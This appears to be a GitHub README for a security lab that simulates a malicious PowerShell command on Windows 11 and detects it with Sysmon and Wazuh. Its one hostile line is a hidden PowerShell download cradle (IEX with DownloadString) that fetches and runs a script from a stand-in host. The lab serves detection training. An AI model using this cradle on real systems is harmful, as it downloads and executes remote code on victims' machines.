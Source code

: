 # Wazuh Lab: Detecting Suspicious PowerShell Activity

## Objective
Simulate malicious PowerShell behavior on a Windows 11 machine and detect it using Wazuh SIEM and Sysmon logs.

## Environment
- **SIEM**: Wazuh Server (Ubuntu, Proxmox VM)
- **Endpoint**: Windows 11 (joined to domain, Wazuh agent + Sysmon)
- **Attacker Simulation**: User context (non-admin)

## Simulated Activity
Executed a suspicious PowerShell command mimicking malware behavior:

```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://testsite/malicious.ps1')"
```

## Detection
Sysmon Logs:
Event ID 1: Process creation detected for powershell.exe

Logged command-line arguments including IEX and DownloadString

## Wazuh Alerts:
Alert level 15 triggered

Message: "Executable file dropped in folder commonly used by malware"

## Screenshots
### Powershell Command
![powershell](./powershell.png)

### Sysmon Log in Event Viewer
![sysmonlog](./sysmonlog.png)

### Wazuh Alert Triggered
![wazuh](./wazuh.png)

## Key Takeaways
- Sysmon provides deep visibility into process creation, command-line usage, and network activity.

- Wazuh effectively correlates endpoint activity to detect high-risk behavior like encoded or stealth PowerShell usage.

- Even without actual malware, simulated behavior alone can trigger detection, which is essential in SOC analysis and threat hunting.
